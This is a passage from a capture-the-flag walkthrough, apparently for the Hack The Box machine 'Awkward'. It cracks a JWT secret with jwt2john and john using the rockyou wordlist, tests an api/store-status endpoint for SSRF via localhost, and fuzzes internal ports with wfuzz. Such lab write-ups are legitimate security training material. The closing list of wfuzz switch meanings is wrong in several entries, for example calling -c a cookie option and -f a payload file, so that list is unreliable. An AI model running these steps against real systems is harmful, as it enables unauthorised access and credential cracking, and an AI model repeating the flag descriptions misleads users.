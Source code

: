 - Convert the hash with `jwt2john`
```bash
python jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc0MzYzMTMxfQ.AvGDOOJbvJYYpr6YWK-w5xMxudrcul58DfOKrpspync > jwt_hash
```

- Let's see if we can find the secret `verify signature`.
```bash
john jwt_hash -w=/usr/share/wordlists/rockyou.txt
```

- Output:
```bash
123beany123
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121231323.png)

- We don't have any way to utilize the `jwt` token just yet, but stay tuned.
- Next we enumerate the `http://hat-valley.htb/dashboard` as `Chrisopher`.
- We can click the `Refresh` button and find the `store-status` endpoint we previously discovered.
```bash
http://hat-valley.htb/api/store-status?url=http://store.hat-valley.htb
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121232100.png)

- Let's test for `SSRF`.
- Change:
```bash
http://hat-valley.htb/api/store-status?url=http://store.hat-valley.htb
```
- To:
```bash
http://hat-valley.htb/api/store-status?url=http://localhost
```

- We get a `200 OK` and no error.
- `Server-side Request Forgery (SSRF)` - A type of web application vulnerability that allows an attacker to send crafted requests from a vulnerable server to another internal or external server on behalf of the server. This allows the attacker to access potentially sensitive information, such as internal network resources or other servers, that would not be accessible from the external network.
- If we can pretend we are `localhost` we can determine if there are any internal ports open on the server in question..
- Let's craft a script to generate ports from 1-63555.
- I am using a fish shell so this works for me:
```fish
for i in (seq 1 63555)
             echo $i >> ports.txt
     end
```

- Let's spin up `wfuzz` to determine potential open ports:
```bash
wfuzz -c -f awkward_api_store-status_wfuzz_out.txt -u 'http://hat-valley.htb/api/store-status?url="http://localhost:FUZZ"' -w ports.txt --hl 0
```
`-c` - This switch tells wfuzz to use a specific cookie value when making requests. 
`-f` - This switch tells wfuzz to use a specific file containing a list of payloads to use in the fuzzing process. 
`-u` - This switch tells wfuzz to use a specific URL as the target for the fuzzing process. 
`-w` - This switch tells wfuzz to use a specific file containing a list of words to use as payloads in the fuzzing process. 
`-H` - This switch tells wfuzz to use specific headers to include in the HTTP requests made during the fuzzing process. 
`--hl` - This switch tells wfuzz to hide the results in the output if the payload is found in the response.
